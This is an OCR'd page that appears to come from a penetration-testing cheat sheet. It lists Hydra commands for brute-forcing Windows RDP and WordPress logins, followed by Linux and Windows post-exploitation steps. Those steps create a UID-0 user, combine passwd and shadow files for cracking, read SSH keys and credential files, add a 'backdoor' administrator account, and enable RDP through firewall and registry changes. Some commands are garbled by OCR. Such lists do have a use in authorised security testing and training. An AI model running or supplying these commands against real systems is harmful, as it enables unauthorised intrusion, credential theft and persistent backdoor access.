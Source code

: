 ```text
> $ Hydra attack Windows Remote Desktop with rockyou
```

▪ hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp:// &gt; $ip

```text
> $ Hydra brute force a Wordpress admin login
```

▪ hydra -l admin -P ./passwordlist.txt &gt; $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

## POST EXPLOITATION LINUX

Add user with root privs:

> $ sudo useradd -ou 0 -g 0 john  
> $ sudo passwd John@1234

Combie shadow and passwd files:

> $ unshadow passwd.txt shadow.txt &gt; passwords.txt

Find listening services:

> $ netstat -alp

Copy ssh private kets:

> $ /etc/ssh/ssh\_host\_dsa\_key  
> $ /etc/ssh/ssh\_host\_key

Check interseting files

> $ /var/log  
> $ /var/log/secure  
> $ /etc/passwd  
> $ /etc/shadow  
> $ ~/.bash\_history  
> $ ~/.mysql\_history  
> Check log files of some of the services:  
> $ http  
> $ ftp  
> $ ssh  
> ▪ grep 'sshd' /var/log/auth.log

linux Post Exploitation:

> $ ifconfig

## POST EXPLOITATION WINDOWS

Backdoor User:

> $ net user backdoor backdoor@123 /add  
> $ net localgroup administrators backdoor /add  
> $ net localgroup "Remote Desktop Users" backdoor /add  
> $ net user admin newpassword  
> Enabling RDP  
> $ netsh firewall add portopening TCP 3389 "Open Port 3389" ENABLE ALL  
> $ netsh firewall set portopening TCP 3389 proxy ENABLE ALL  
> $ netsh firewall set service RemoteDesktop enable  
> $ reg add "HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG\_DWORD /d 0 /f
